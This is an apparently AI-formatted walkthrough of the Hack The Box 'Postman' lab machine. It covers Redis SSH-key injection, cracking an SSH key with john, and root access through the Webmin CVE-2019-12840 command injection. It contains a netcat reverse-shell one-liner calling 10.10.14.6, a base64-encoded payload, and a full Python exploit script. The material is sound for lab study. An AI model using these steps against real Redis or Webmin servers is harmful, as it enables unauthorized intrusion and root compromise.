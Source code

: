 Here's your **Markdown-formatted walkthrough for HTB: Postman**, structured cleanly for Obsidian, GitHub, or local notes:

---

# 📮 HTB: Postman — Walkthrough

**OS:** Linux  
**Difficulty:** Easy  
**Tags:** `redis`, `Webmin`, `ssh`, `key cracking`, `privesc`, `CVE-2019-12840`

---

## 📡 Recon

### Nmap Scan

```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.160
nmap -p 22,80,6379,10000 -sC -sV -oA scans/nmap-tcpscripts 10.10.10.160
```

- **Ports:**  
  - `22/tcp`: OpenSSH 7.6  
  - `80/tcp`: Apache 2.4.29  
  - `6379/tcp`: Redis 4.0.9  
  - `10000/tcp`: Webmin (MiniServ 1.910)  

---

## 🌐 Web Enumeration

### Port 80

- Basic HTML page (under construction)
- Gobuster:

```bash
gobuster dir -u http://10.10.10.160 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt -x php
```

- Found: `/upload`, `/images`, `/fonts`, `/css`, `/js` — but all uninteresting

### Port 10000 (Webmin)

- Webmin login on HTTPS
- Hostname: `postman` from redirect
- Default login page shown
- No useful links via HTTP

---

## 🔧 Redis Enumeration (TCP 6379)

### Basic Commands

```bash
redis-cli -h 10.10.10.160
> keys *
> config get dir
> config set dir ./.ssh
```

### Inject SSH Key

```bash
ssh-keygen -f ~/id_rsa_generated
(echo -e "\n\n"; cat ~/id_rsa_generated.pub; echo -e "\n\n") > spaced_key.txt
cat spaced_key.txt | redis-cli -h 10.10.10.160 -x set 0xdf
```

### Save DB to `.ssh/authorized_keys`

```bash
redis-cli -h 10.10.10.160
> config set dbfilename "authorized_keys"
> save
```

---

## 🐚 Shell as redis

```bash
ssh -i ~/id_rsa_generated redis@10.10.10.160
```

✅ Shell as `redis`  
🧾 Look for `.ssh/authorized_keys` to confirm injection

---

## 👤 Priv Esc: redis → Matt

### Found Encrypted SSH Key

```bash
ls -l /opt/id_rsa.bak
```

### Crack Key

```bash
/opt/john/run/ssh2john.py id_rsa.bak > id_rsa.john
john id_rsa.john --wordlist=/usr/share/wordlists/rockyou.txt
# Passphrase: computer2008
```

### Cannot SSH (Denied in `/etc/ssh/sshd_config`)

```bash
# grep DenyUsers /etc/ssh/sshd_config
DenyUsers Matt
```

### Switch User with `su`

```bash
su Matt
# Password: computer2008
```

✅ Shell as `Matt`  
📄 `cat /home/Matt/user.txt`

---

## 🔓 Priv Esc: Matt → root (via Webmin)

### Login to Webmin

```bash
https://10.10.10.160:10000/
# Username: Matt
# Password: computer2008
```

✅ Access only to “Package Updates” module

### Exploit: CVE-2019-12840 (Webmin RCE)

- POST to:

```http
POST /package-updates/update.cgi
```

- Data:

```http
u=acl/apt
u= | bash -c "base64 payload | base64 -d | bash"
ok_top=Update Selected Packages
```

### Reverse Shell Payload (Base64 Encoded)

```bash
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.6 443 >/tmp/f' | base64
```

### Python Exploit Example

```python
import requests
import html
import re

s = requests.session()
s.post('https://10.10.10.160:10000/session_login.cgi',
       data={'page':'', 'user':'Matt', 'pass':'computer2008'},
       verify=False)

payload = 'echo cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI+JjF8bmMgMTAuMTAuMTQuNiA0NDMgPi90bXAvZgo=|base64 -d|bash -i'

resp = s.post('https://10.10.10.160:10000/package-updates/update.cgi',
              data=[('u','acl/apt'), ('u', f' | bash -c "{payload}"'), ('ok_top','Update Selected Packages')],
              headers={'Referer':'https://10.10.10.160:10000/'},
              verify=False)

print(html.unescape(re.findall('<pre>(.*)</pre>', resp.text, re.DOTALL)[0]))
```

---

## ⚙️ Shell as root

```bash
nc -lvnp 443
```

✅ Reverse shell connects as root  
📄 `cat /root/root.txt`

---

## 🧠 Beyond Root: Why Metasploit Redis Exploit Failed

### Exploit:

```bash
use exploit/linux/redis/redis_unauth_exec
```

### Issue:

- Redis throws:

```
-ERR unknown command 'MODULE'
```

### Reason:

```bash
grep MODULE /etc/redis/redis.conf
rename-command MODULE ""
```

✅ Redis `MODULE` command is **disabled**

---

Let me know if you'd like this in collapsible Obsidian format or with code snippets styled for GitHub readmes!